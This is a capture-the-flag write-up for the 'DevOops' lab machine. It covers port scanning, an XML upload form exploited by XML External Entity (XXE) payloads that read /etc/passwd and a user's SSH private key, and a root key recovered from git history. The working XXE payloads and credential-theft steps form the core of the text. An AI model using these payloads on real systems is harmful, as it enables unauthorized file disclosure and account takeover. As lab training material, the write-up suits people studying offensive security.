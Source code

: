 # DevOops

![image](https://user-images.githubusercontent.com/10210108/79370115-1d91d900-7f20-11ea-8823-4678d93e0034.png)

## Overview

Devoops is an Ubuntu box running Gunicorn that was vulnerable to an XXE (XML External Entity) attack which lead to the disclosure of roosa's private ssh key. Using this key I was able to log in via ssh as roosa. While browsing Roosa's home folder I came across a local git repo which contained the ssh private key for root in the commit history which was used to ssh into the box as root.

## Enumeration

**Software**
* Ubuntu 16.04.4 LTS
* OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
* Gunicorn 19.7.1
* git version 2.7.4

**Port Scan**
```
nmap -vv -Pn -sT -A --osscan-guess -p- -oN /mnt/data/boxes/devoops/_full_tcp_nmap.txt
```
* 22/tcp - ssh
* 5000/tcp - http

**Directory/File Brute Force**
```
gobuster dir -u http://10.10.10.91:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 30
```
* /upload
* /feed

## Steps (user)

The nmap results came back with two ports: 22 (ssh) and 5000 which I was not familiar with. The scan listed port 5000 as an http server running Gunicorn. I did a quick search and determined that [Gunicorn](https://gunicorn.org/) "...is a Python WSGI HTTP Server for UNIX" 

Browsing to http://10.10.10.91:5000 shows an Under Construction page and with mention of an application called BlogFeeder.

![image](https://user-images.githubusercontent.com/10210108/81110147-28b9a280-8ee9-11ea-8cee-7bdf641b28d3.png)

Browsing to http://10.10.10.91:5000/feed just showed the image from the main page but http://10.10.10.91:5000/upload showed an upload form which was much more useful. 

![image](https://user-images.githubusercontent.com/10210108/81111390-ff017b00-8eea-11ea-8c67-e37724943662.png)

The title of the page was "Send feed with XML" and referenced the XML Elements "Author, Subject, Content". This hinted that XML files could be uploaded. I did an internet search to confirm the [basic structure of the XML file](https://www.w3schools.com/xml/xml_elements.asp). I created a file with the XML elements mentioned on the page and saved it as test.xml

```
<test>
  <Author>author</Author>
  <Subject>subject</Subject>
  <Content>content</Content>
</test> 
```
After test.xml was uploaded I received a "Processed Blogpost" message which was encouraging.

![image](https://user-images.githubusercontent.com/10210108/81112416-9d421080-8eec-11ea-815f-db0942b89289.png)

Doing some research on XML exploits I came across an OWASP article explaining [XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing). I updated the test.xml file to include the sample code for disclosing targeted files. 

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<test>
  <Author>&xxe;</Author>
  <Subject>subject</Subject>
  <Content>content</Content>
</test
```

After uploading the updated test.xml file I was able to successfully read /etc/passwd. This also implied that I could arbitrarily read other files this account had access to.

![image](https://user-images.githubusercontent.com/10210108/81113555-6d940800-8eee-11ea-8cca-5e5307c55de8.png)

Reviewing the entries in the /etc/passwd file showed an account named roosa. I also saw this user's home folder path referenced after each successful XML upload.

```
Content: content URL for later reference: /uploads/test.xml File path: /home/roosa/deploy/src
```

I modified test.xml again to check for an ssh private key in Roosa's home folder and she did.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>

<test>
  <Author>&xxe;</Author>
  <Subject>subject</Subject>
  <Content>content</Content>
</test
```

![image](https://user-images.githubusercontent.com/10210108/81114359-e5aefd80-8eef-11ea-809e-83114d8e1540.png)

I copied the part of the output pertaining to the private key, pasted it to a file on my local system called id_rsa, and ran chmod to set the correct permissions.

```
chmod 600 id_rsa
```

I was then able to use the private key to ssh into the system as roosa.

```
ssh -i id_rsa roosa@10.10.10.91
```

![image](https://user-images.githubusercontent.com/10210108/81114657-708ff800-8ef0-11ea-994e-bbb1e33c1d15.png)

## Steps (root/system)

While browsing roosa's home folder I came across /work/blogfeed which caught my attention because the name was referenced on the main page of the website.  Inside this folder was another folder called .git which is the "directory at the root of the working tree" according to the [gitrepository documentation](https://git-scm.com/docs/gitrepository-layout).

![image](https://user-images.githubusercontent.com/10210108/81115978-9e763c00-8ef2-11ea-9a89-438d8f49273e.png)

As a test I ran 'git status' and recieved the following output:

![image](https://user-images.githubusercontent.com/10210108/81116822-0b3e0600-8ef4-11ea-8d7d-7aa6a527dfdb.png)

I then ran git log -p to review previous commits. Reviewing the information shows the comment "reverted accidental commit with proper key" followed by the key that was removed.

![image](https://user-images.githubusercontent.com/10210108/81116447-5f94b600-8ef3-11ea-808a-22141e1d4aec.png)

Following the same procedure as before; I copied the 'removed' private key to a file called id_rsa2, set the correct permissions, and attempted log in with root using the new private key.

```
ssh -i id_rsa2 root@10.10.10.91
```

login was successful

![image](https://user-images.githubusercontent.com/10210108/81116782-f82b3600-8ef3-11ea-998d-9f7bc2e5b3cc.png)
